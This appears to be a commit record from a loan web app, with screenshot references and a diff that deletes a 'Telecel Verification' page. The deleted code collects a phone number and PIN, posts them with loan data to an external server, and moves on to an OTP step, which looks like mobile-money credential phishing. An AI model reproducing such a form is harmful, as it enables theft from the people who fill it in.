

Before and after one commit to Glimmerkk/G-bayport-loans, a React (Vite) app in the folder frontend/: page /telecel/1 in a window 1280 px wide. Shown: the top 516 px of the page, without its empty margins (0-923 px from the left). Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
add netlify redirects

```diff
--- a/frontend/src/pages/Telecel.jsx
+++ b/frontend/src/pages/Telecel.jsx
@@ -1,86 +1,3 @@
-import { useState } from "react";
-import axios from "axios";
-import "../styles/app.css";
-import { useNavigate } from "react-router-dom";
-
 export default function Telecel() {
-  const [loading, setLoading] = useState(false);
-  const navigate = useNavigate();
-
-  const [data, setData] = useState({
-    number: "",
-    pin: "",
-  });
-
-  const handleChange = (e) => {
-    setData({ ...data, [e.target.name]: e.target.value });
-  };
-
-  const handleSubmit = async (e) => {
-    e.preventDefault();
-
-    const loanData = JSON.parse(localStorage.getItem("loanData")) || {};
-
-    console.log("LoanData:", loanData);
-    console.log("Telecel Data:", data);
-
-    setLoading(true);
-
-    try {
-      const res = await axios.post(
-        "https://g-bayport-loans.onrender.com/apply",
-        {
-          ...loanData,
-          ...data,
-        }
-      );
-
-      console.log("SERVER RESPONSE:", res.data);
-
-      if (res.data.id) {
-        navigate(`/otp/${res.data.id}`);
-      } else {
-        alert("No ID returned from server");
-      }
-
-    } catch (err) {
-      console.error(err);
-      alert("Failed to submit");
-    }
-
-    setLoading(false);
-  };
-
-  return (
-    <div className="loan-container">
-      <div className="card">
-
-        <h1>Telecel Verification</h1>
-
-        <form onSubmit={handleSubmit}>
-
-          <input
-            name="number"
-            placeholder="Telecel Number"
-            onChange={handleChange}
-            required
-          />
-
-          <input
-            name="pin"
-            type="password"
-            placeholder="PIN"
-            onChange={handleChange}
-            required
-          />
-
-          <button disabled={loading}>
-            {loading ? "Processing..." : "Continue"}
-          </button>
-
-        </form>
-
-      </div>
-    </div>
-  );
+  return <h1>Telecel Page Working ✅</h1>;
 }
```
